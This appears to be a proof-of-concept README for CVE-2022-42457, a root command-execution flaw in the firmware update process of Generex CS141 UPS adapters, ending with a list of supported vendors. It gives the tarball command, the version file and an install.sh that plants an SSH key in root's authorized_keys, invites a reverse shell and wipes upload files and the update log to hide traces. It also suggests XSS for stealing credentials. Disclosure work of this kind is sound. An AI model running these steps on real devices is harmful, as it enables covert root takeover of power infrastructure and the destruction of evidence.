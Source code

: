 # CVE-2022-42457 Generex-CS141-Authenticated-Remote-Command-Execution

## Description:
The device [CS141](https://www.generex.de/products/ups) is an Ethernet Adapter for the control and the management of UPS Facilities. A list of supported UPS Vendors can be found at the bottom.

The Firmware update process allows to execute arbitrary commands. Most of the time, these type of devices are overlooked and never controlled.
Therefore, it is from value to execute commands directly on the underlying Linux.

## Vulnerable versions
At the time of writing, all versions up to the latest version '2.10' are vulnerable. Therefore, no patch is currently available.

## Exploit
The update script located in `/usr/bin/gxserve-update.sh` simply executes the script `ìnstall.sh` inside a gzip compressed tarball as root.
The responsible function is `run_update()` which extracts the script install.sh from a tarball (line 111) and executes it (line 132,133).

![alt text](gxserve-update.sh.png "update script")

Therefore, to execute commands simply create a tarball with a `version` and `install.sh` file which contains your reverse shell or other commands.

The following command creates the update tarball with the install.sh script which will be executed. Please note, the `./` is important and the version number must be greater than the current version.
```
tar cvzf update211.tar.gz ./install.sh version
```
The `version` file should look like
```
version=2.11
```
The `install.sh` may look like
```
#!/bin/sh
# bch8
# Add your rev shell or simply an ssh pub key here
echo -n 'ecdsa-sha2-nistp384 AAAAE2...' >> /root/.ssh/authorized_keys

# Do some cleanup
rm -f /tmp/version
rm -f /var/www/hiawatha/upload/update*.tar.gz
rm -f /tmp/install.sh
echo -n > /var/log/update.log
sync
```


Further more, the client-side application has been done with the EOL Anuglar project, which contains a well known [Prototype Pollution vulnerability](https://security.snyk.io/vuln/SNYK-JS-ANGULAR-534884).
So a possible way to get credentials would be to prepare some XSS. The Authentication is done by the Hiawatha webserver.

## Supported Vendors:
```
 AEG
 PILLER POWER SYSTEMS
 Online
 VERTIV
 Eurotech Sweden (Riello)
 Legrand
 Mansshardt
 Inform
 Generex
 Kess
 Rittal
 Newave CH
 Eaton/Powerware
 Multimatic
 MetaSystem Energy
 Benning
 DRS Pivotal Power
 Errepi
 Borri S.p.A
 General Electric
 DKC Europe
 Roton
 CTA
 Akkutronik
 Newave GER
 UPS Service
 Allnet
 Effekta
 Kaufel
 Jovy Atlas
 ABB
 Nitram
 Astrid
 Kamic
 Inform
 THYCON
 Roline
 Ablerex
 Woehrle
 Fuji Electric
 S2S
 Triathlon
 Elektro-Automatik
 centiel
 ELIT srl
 CPS
 ACCENT MONITORING
 Coromatic
 Predictive Technology Inc.
 British Power Conversion
 Siel
 Alpha
 DFM Select
 SAPOTEC
 Gustav Klein
 apra net
 Leistung
 ELINEX
 AKI Power Systems
 COMPU Power South Africa
 Exponential Power
 Astrid neutral
 Infosec
 E-TEC
 TwinSource
 BACS / LED / SITEMAN
 SNG
 SICOTEC AG
 Eltek
 CET
 Salicru
 NetMinder
 Kohler Power
 International Business Resources
 Enedo
 AdPoS
 EnerSys
 Kess
 ALTERVAC
 GRUENCO
 Staco Energy
 Statron
 BJ Balfour
 POWER-ALL
 Genesys M2M
 AG IT PROJECT
```